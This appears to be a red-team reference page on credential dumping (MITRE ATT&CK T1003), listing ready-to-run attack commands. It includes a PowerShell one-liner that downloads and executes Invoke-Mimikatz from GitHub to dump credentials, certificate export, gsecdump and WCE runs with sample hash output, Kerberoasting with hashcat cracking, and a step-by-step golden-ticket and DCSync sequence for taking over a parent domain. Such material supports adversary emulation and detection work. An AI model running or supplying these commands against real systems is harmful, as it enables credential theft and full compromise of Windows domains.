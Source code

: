 # Credential Dumping

MITRE ATT&CK Technique: [T1003](https://attack.mitre.org/wiki/Technique/T1003)


## Powershell Mimikatz - Dump Credentials

Input:

    powershell.exe "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"

## Powershell Mimikatz - Dump Certificates

Input:

    PS> Import-Module Invoke-Mimikatz.ps1 
    Invoke-Mimikatz –command '"privilege::debug"' 
    Invoke-Mimikatz –command '"crypto::capi"' 
    Invoke-Mimikatz –command '"crypto::certificates /export"' 
  
## Gsecdump

[Gsecdump](https://www.truesec.se/sakerhet/verktyg/saakerhet/gsecdump_v2.0b5)

Input:

    gsecdump -a

## Windows Credential Editor

[Windows Credential Editor](http://www.ampliasecurity.com/research/windows-credentials-editor/)

Input:

    wce -o output.txt

Output:

    C:\>wce -o output.txt
    WCE v1.2 (Windows Credentials Editor) - (c) 2010,2011 Amplia Security - by Hernan Ochoa (hernan@ampliasecurity.com)
    Use -h for help.

    C:\>type output.txt
    test:AMPLIALABS:01020304050607080900010203040506:98971234567865019812734576890102
    C:\>

## Powershell Mimikatz - Dump Service Account Passwords (Keberoast)

[Powersploit] (https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)

Input:

    PS> invoke-kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash <hash>
    
[hashcat] (https://github.com/hashcat/hashcat.git)

    PS> invoke-kerberoast -OutputFormat HashCat | Select-Object -ExpandProperty hash > ./krbtgs-23.txt
    hashcat -m 13100 -a 0 -w 4 --session kerb -o hash.pot --powertune-enable ./krb-tgs-23.txt
    /opt/rockyou.txt -r ./hashcat-3.10/rules/dive.rule

[JohnTheRipper (Magnum Ripper)] (https://github.com/magnumripper/JohnTheRipper)

    PS> invoke-kerberoast -OutputFormat John | Select-Object -ExpandProperty hash
    
## Powershell Mimikatz - Create Golden Ticket on a Parent Domain with a Bi-Directional Trust

[Powersploit] (https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)

 #create golden ticket to use  
  
    PS> Import-Module .\Invoke-Mimikatz.ps1 PS> Import-Module .\PowerView.ps1 
    PS> Get-DomainSid  
    PS> Get-NetGroup “Enterprise Admins" -Domain <Domain> <SID> 
    

#Grab the NTLM hash of the krbtgt user for the child domain 
    
    PS> Invoke-Mimikatz -Command '"lsadump::dcsync /domain:<Domain> /user:krbtgt"' f320b90fa9c53969efc61146e77022b5
    

#Try mounting the C$ of the parent domain controller
    
    PS> dir \<Domain Controller>\c$ #Error - access denied
    

#Create a golden ticket for a user on the child domain with enterprise admin rights of the parent domain
   
    PS> Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<Domain> /sid:<SID> /krbtgt:<SID> /sids:<SID> /ptt"'
    

#Check administrative access to the parent domain controller
    
    PS> dir \\<Domain Controller>l\c$ #Allowed
    PS> Invoke-WmiMethod -Path Win32_process -Name create -ComputerName <Computer Name> -ArgumentList calc.exe
    

#Run dcsync with mimikatz
    
    PS> Invoke-Mimikatz -Command '"lsadump::dcsync /user:<username> /domain:<domain>"'
    

#Create a golden ticket file if needed for backup
    
    PS> Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<Domain> /sid:<sid> 
        /krbtgt:f320b90fa9c53963efc61146e77022b5 /sids:<SID>"‘

    PS> Invoke-Mimikatz -Command '"kerberos::ptt ticketname.bin"'
